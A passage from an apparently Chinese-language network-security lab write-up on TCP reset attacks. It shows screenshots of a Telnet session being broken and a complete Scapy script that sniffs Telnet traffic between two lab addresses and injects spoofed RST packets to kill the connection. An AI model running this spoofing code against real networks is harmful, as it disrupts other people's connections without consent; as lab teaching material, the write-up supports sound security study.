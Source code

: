 运行: `python3 tcp_reset_mannual.py`

攻击效果：

![image-20230417230828211](assets/image-20230417230828211.png)

Telnet通讯中断

![image-20230417172316211](assets/image-20230417172316211.png)

### 3.3 Scapy自动攻击

tcp_reset_auto.py

```py
#!/usr/bin/python3
from scapy.all import *

SRC  = "10.9.0.3"
DST  = "10.9.0.2"
PORT = 23

def spoof(pkt):
    old_tcp = pkt[TCP]
    old_ip = pkt[IP]

    #############################################
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, flags = "R") 
    #############################################

    pkt = ip/tcp
    send(pkt,verbose=0)
    print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))

f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof, iface="br-15e9de546a72")
```